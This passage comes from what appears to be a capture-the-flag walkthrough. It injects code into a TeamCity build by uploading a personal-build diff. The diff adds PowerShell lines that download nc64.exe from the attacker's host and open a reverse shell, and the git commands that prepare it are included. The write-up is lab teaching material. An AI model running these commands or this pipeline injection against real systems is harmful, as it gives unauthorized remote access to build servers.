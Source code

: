 I don’t have write access to the SMB share, so I can’t change the repo contents there. However, I can use the personal build option to upload a diff file to effectively make changes to the repo that way.

I’ll create a dummy repo and add `hello_world.ps1`:

```

oxdf@hacky$ mkdir ~/repo
oxdf@hacky$ cp hello_world.ps1 ~/repo/
oxdf@hacky$ cd ~/repo/
oxdf@hacky$ git init
Initialized empty Git repository in /home/oxdf/repo/.git/
oxdf@hacky$ git add hello_world.ps1 
oxdf@hacky$ git commit -m "as on coder"
[main (root-commit) 42bd623] as on coder
 1 file changed, 2 insertions(+)
 create mode 100755 hello_world.ps1

```

I’ll update `hello_world.ps1` to include commands to fetch netcat from my server and return a reverse shell:

```

#Simple repo test for Teamcity pipeline
write-host "Hello, World!"

iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
\ProgramData\nc64.exe -e powershell 10.10.14.6 443

```

Running `git diff` shows the diff output for this vs what’s already committed:

```

oxdf@hacky$ git diff
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..6cd6d20 100755
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,5 @@
 #Simple repo test for Teamcity pipeline
 write-host "Hello, World!"
+
+iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
+\ProgramData\nc64.exe -e powershell 10.10.14.6 443
oxdf@hacky$ git diff > shell.diff

```

I’ll save it as `shell.diff`.

With a Python webserver serving `nc64.exe`, and `nc` listening on 443, I’ll start a run with the advanced options:
